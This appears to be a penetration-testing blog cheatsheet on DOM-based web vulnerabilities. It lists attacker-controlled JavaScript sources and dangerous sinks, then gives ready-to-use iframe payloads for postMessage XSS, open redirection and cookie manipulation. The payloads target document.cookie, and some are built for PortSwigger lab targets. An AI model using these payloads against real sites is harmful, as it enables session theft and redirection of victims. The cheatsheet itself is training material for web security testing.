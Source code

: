 ```yaml
---
title: "DOM-based vulnerabilities"
subtitle: ""
draft: false
author: "Hato0"
description: "DOM-based vulnerabilities cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>

tags: ["web", "penetest", "dom-based"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# DOM-based vulnerabilities

DOM-based vulnerabilities are based on javascript values controlled by attackers *called source* and use it in dangerous functions *called sink* (values can be cookies or whatever and functions can be eval like ones so by modifying the cookie you've got RCE).

Sources are very often :
- document.URL  
- document.documentURI  
- document.URLUnencoded  
- document.baseURI  
- location  
- document.cookie  
- document.referrer  
- window.name  
- history.pushState  
- history.replaceState  
- localStorage  
- sessionStorage  
- IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)  
- Database

Sink related to vulnerabilites are (thanks to portswigger):

DOM-based vulnerability | Example sink
:----: | :----:
DOM XSS  | `document.write()`
Open redirection | `window.location`
Cookie manipulation | `document.cookie`
JavaScript injection | `eval()`
Document-domain manipulation | `document.domain`
WebSocket-URL poisoning | `WebSocket()`
Link manipulation | `someElement.src`
Web-message manipulation | `postMessage()`
Ajax request-header manipulation | `setRequestHeader()`
Local file-path manipulation | `FileReader.readAsText()`
Client-side SQL injection | `ExecuteSql()`
HTML5-storage manipulation | `sessionStorage.setItem()`
Client-side XPath injection | `document.evaluate()`
Client-side JSON injection | `JSON.parse()`
DOM-data manipulation | `someElement.setAttribute()`
Denial of service | `RegExp()`


There is also DOM clobbering, same goal, different approach, your goal here is to inject HTML and then perform DOM basis

## Some examples



- Web messages
	
	Here you are in the situation where your page contained an `addEventListener` and wait for an input
	
	You can put the following message: 
	
	{{< highlight html "lineNos=false" >}}
	<iframe src="WEBSITE" onload="this.contentWindow.postMessage('<img src=1 onerror=alert(document.cookie)>','\*')">
	{{< /highlight >}}
	
	OR
	
	{{< highlight html "lineNos=false" >}}
	<iframe src="WEBSITE" onload="this.contentWindow.postMessage('javascript:alert(document.cookie)//http:','\*')">
	{{< /highlight >}}
	
	OR 
	
	{{< highlight html "lineNos=false" >}}<iframe src=https://your-lab-id.web-security-academy.net/ onload='this.contentWindow.postMessage("{\\"type\\":\\"load-channel\\",\\"url\\":\\"javascript:alert(document.cookie)\\"}","\*")'>
	{{< /highlight >}}
	
	Base your payload on the method use to upload a message.
	
	The iframe will post the message and dump it on the page, you will be able to get the cookie that way
	

- DOM-based open redirection

	The website have a similar output than the following one :
	
	{{< highlight html "lineNos=false" >}}
	<a href='#' onclick='returnURL' = /url=https?:\\/\\/.+)/.exec(location); if(returnUrl)location.href = returnUrl\[1\];else location.href = "/"'>Back to Blog</a>
	{{< /highlight >}}
	 
	 So you can use it by sending for example the following url :
	 
	 `https:/WEBSITE/post?postId=4&url=YOURWEBSITE`
	 
	 
- DOM-based cookie manipulation

	Here is an example for the following scenario :
	1. You are on a website that store last page seen as a cookie
	
	2. Your first action is to inject an iframe where you match an existing page and add some payload after it.
	
	3. When the iframe is load by the victime browser, it will open the src temporarily and set the cookie to the payload

	4. Then the iframe will execute the `onload` function and redirect the victime to an other page of your choice. 

	5. By loading the page the cookie will be stored and execute so is your payload, the victime is not able to see it in anyway (if your victime is Mr/Mrs Michu)
	
	{{< highlight html "lineNos=false" >}}
	<iframe src="WEBSITE/sell?productId=1&'><script>alert(document.cookie)</script>" onload="if(!window.x)this.src='WEBSITE';window.x=1;">
	{{< /highlight >}}
	
## How to prevent it 
Not much to do. Just handle untrusted data carefully and perform all required checks.